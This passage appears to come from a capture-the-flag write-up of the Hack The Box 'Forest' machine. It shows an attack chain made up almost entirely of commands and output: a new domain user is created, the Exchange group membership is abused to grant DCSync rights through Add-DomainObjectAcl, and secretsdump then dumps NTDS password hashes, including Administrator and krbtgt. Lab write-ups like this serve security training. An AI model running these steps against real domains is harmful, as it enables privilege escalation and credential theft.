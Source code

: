 ![Untitled](/assets/images/2022-02-11-writeup-maquina-htb-forest/Untitled%2018.png)

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user abeljm abeljm123 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" abeljm /add
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $SecPassword = ConvertTo-SecureString 'abeljm123' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $Cred = New-Object System.Management.Automation.PSCredential('HTB\abeljm', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -Credential $Cred -PrincipalIdentity 'abeljm' -TargetIdentity "HTB.LOCAL\Domain Admins" -Rights DCSync
```

```bash
Forest ❯ secretsdump.py abeljm:abeljm123@10.129.177.231
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
```